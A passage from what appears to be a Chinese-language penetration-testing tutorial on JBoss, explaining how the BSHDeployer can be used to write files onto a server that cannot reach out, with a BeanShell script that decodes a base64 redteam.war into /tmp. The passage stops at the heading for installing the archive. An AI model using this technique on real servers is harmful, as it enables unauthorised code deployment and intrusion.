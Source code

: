 #### BSHDeployer

利用 RMI 攻击需要 JBoss 应用服务器能够访问远程 HTTP 服务器。

然而在很多配置中，防火墙不允许 JBoss 服务器对外发出连接请求：

![enter image description here](img/img7_u104_png.jpg)

为了能够在 JBoss 服务器上安装 redteam.war，这个文件需要放在本地。

虽然 JBoss 不允许直接直接上传文件，但是有 BeanShellDeployer，我们可以在远程服务器上创建任意文件。

##### BeanShell

BeanShell 是一种运行在 JRE 上的脚本语言，该语言支持常规的 Java 语法。可以很快写完，并且不需要编译。

##### BSHDeployer

JBoss 服务器中 BSHDeployer 可以部署 BeanShell 脚本，它会安装后自动执行。

利用 BSHDeployer 安装的方法是：

```
createScriptDeployment(String bshScript, String scriptName) 
```

##### BeanShell 脚本

可以用下面的 BeanShell 脚本实现把 redteam.war 放到 JBoss 服务器上。

```
import java.io.FileOutputStream;
import sun.misc.BASE64Decoder;
// Base64 encoded redteam.war
String val = "UEsDBBQACA[...]AAAAA";
BASE64Decoder decoder = new BASE64Decoder();
byte[] byteval = decoder.decodeBuffer(val);
FileOutputStream fs = new FileOutputStream("/tmp/redteam.war");
fs.write(byteval);
fs.close(); 
```

变量 val 中是 redteam.war 文件的 base64 编码后的字符串，脚本在 tmp 目录下生成 redteam.war 文件，Windows 中可以填写 C:WINDOWSTEMP。

##### 安装 redteam.war 文件
